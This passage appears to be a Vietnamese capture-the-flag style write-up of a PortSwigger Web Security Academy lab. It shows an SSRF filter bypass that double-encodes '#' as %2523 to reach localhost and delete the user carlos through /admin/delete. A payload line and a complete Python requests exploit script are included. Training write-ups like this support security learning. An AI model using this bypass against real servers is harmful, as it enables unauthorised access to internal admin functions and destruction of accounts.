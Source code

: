 Double encoded # thành %2523 thì thấy, ta đã truy cập thành công trang localhost → lỗi parse URL lúc validate URL.

![image](https://hackmd.io/_uploads/Byx3MvcYT.png)

Bây giờ chỉ cần /admin để truy cập trang admin.

![image](https://hackmd.io/_uploads/BJ90fPcF6.png)

và mình xóa người dùng carlos bằng

```
stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

và mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0a9d00030370c23b83e866f5002900e0.web-security-academy.net'

session = requests.Session()

headers = {
    'Host': '0a9d00030370c23b83e866f5002900e0.web-security-academy.net',
    'Content-Type': 'application/x-www-form-urlencoded',
}

data_url = 'stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos'

response = requests.post(
    url + '/product/stock',
    headers=headers,
    data=data_url,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/HJRZUw9K6.png)

mục đích xóa người dùng carlos của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/ByDgrPqta.png)
